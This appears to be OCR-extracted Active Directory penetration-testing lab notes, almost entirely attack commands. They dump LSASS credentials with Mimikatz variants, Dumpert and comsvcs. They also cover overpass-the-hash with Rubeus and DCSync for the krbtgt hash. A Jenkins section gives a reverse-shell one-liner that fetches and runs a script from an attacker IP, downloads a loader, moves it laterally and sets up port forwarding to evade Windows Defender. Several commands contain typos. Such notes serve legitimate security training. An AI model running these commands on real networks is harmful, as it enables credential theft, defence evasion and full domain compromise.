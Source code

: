 SharpKatz.exe --Command ekeys
Dump Credentials using Dumpert (DIrect System calls and API unhooking) -
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
Using pypykatz (Mimikatz funtionality oin python) -
pypykatz.exe live lsa
Using Comsvcs.dll -
tasklist /FI "IMAGENAME eq lsass.exe"
rundell32.exe C:\Windows\System32\comsvcs.dll, Minidump <lsass_process_id> C:\users\Public\lsass.dump full
From a Linux attacking machine user impacket or Physmem2profit
OverPass The-Hash -
Over pass the hash (OPTH) generates tokens from hashes or keys. Needs elevation (Run as administrator)
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

or

SafetyKatz.exe "sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
The above command starts a powershell session with a logon type 9 (same as runas/netonly)
Over pass the hash (OPTH) generates tokens from hashes or keys.
Examples -
Below doesn't need elevation of privileges
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
But
Below command needs elevation -
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
NOTE:
Pass the Hash - For non-Domain joined machines
OverPass the Hash - For Domain joined machines
DCSync -
To extract credentials from the DC without code ecexution on it, we can use DCSync.
To use the DCSync features for getting krbtgt hash execute the below command with DA (Domain admin) privileges for us domain - 
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
or
SafetyKatz.exe "lsadump:dcsync /user:us\krbtgt" "exit"
NOTE: By default Domain Admin Privileges are required to run DCSync attack.

Jenkins exploitation -
Get reverse shell from the 'builduser' using the command -
powershell.exe iex (iwr -UseBasicParsing http://IP_ADDRESS/Invoke-PowerShellTcp.ps1) ; Power -Reverse -IPAddress IP_ADDRESS -Port 3443
Find-DomainAdminLocation [to get Domain Admin acccess on the current user (PowerView module)]
Now, get the Loader.exe from you host -
 iwr http://172.16.99.60/Loader.exe -o C:\Users\Public\Loader.exe
To check the administrative access over the other machine which we discovered before, we can use this command  as well if we already knew the user names -
winrs -r:dcorp-mgmt hostname;whoami
First we will copy it to the Public folder of dcorp-mgmt as we have the command execution over dcorp-mgmt.
echo F | xopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
Now, we will extract the credential for dcorp-mgmt - [we will use SafetyKatz.exe | we can use it using Loader.exe]
So, now for running it we need to download it inside the machine. But the Windows Defender will not let it pass, it will create a racket, because we will be downloading it from a remote sever.
So, to bypass it we will setup port-forwarding to make this download invisible from Windows Defender.
Setup port-forwarding on dcorp-mgmt using winrs command (we are leveraging here our access to RCE on dcorp-mgmt using the machine dcorp-ci which is running jenkins with admin privileges) 
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=IP_ADDRESS"